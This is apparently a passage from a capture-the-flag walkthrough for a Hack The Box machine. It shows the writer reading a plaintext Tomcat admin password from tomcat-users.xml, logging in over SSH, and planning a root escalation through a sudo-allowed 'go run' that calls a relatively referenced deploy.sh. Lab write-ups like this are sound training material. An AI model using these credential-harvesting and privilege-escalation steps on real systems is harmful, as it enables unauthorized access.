 ## Tomcat credentials

Tomcat often stores credentials in plaintext format in the `tomcat-users.xml` file. This is also the case here and we get ssh access as the admin user on the machine.

```php
tomcat@ophiuchi:/$ cat /opt/tomcat/conf/tomcat-users.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--
...[snip]...
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
<!--
...[snip]...
```

```php
$ ssh admin@10.129.167.24
The authenticity of host '10.129.167.24 (10.129.167.24)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.167.24' (ECDSA) to the list of known hosts.
admin@10.129.167.24's password:
...[snip]...
Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
admin@ophiuchi:~$
```

Logged in as the admin user we are greeted with the user flag in his home directory.

```
admin@ophiuchi:~$ wc -c user.txt 
33 user.txt
```

# Root

## WASM

Checking for sudo right we see that admin is allowed to execute `go run` as root on `/opt/wasm-functions/index.go`.

```php
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

The code imports the `main.wasm` web assembly file. Then the exported info function get's assigned to a variable and called. The result of this call is later converted to a string and compared to `"1"`. If it isn't equal the program prints `"Not ready to deploy"`  and exits. If it passes the check `/bin/sh` is called on the file `deploy.sh` which is not referenced by an absolute path. This means if we can both create our own custom `main.wasm` and `deploy.sh` and lead it down another code path, it executes the code we specify in the `deploy.sh` file.

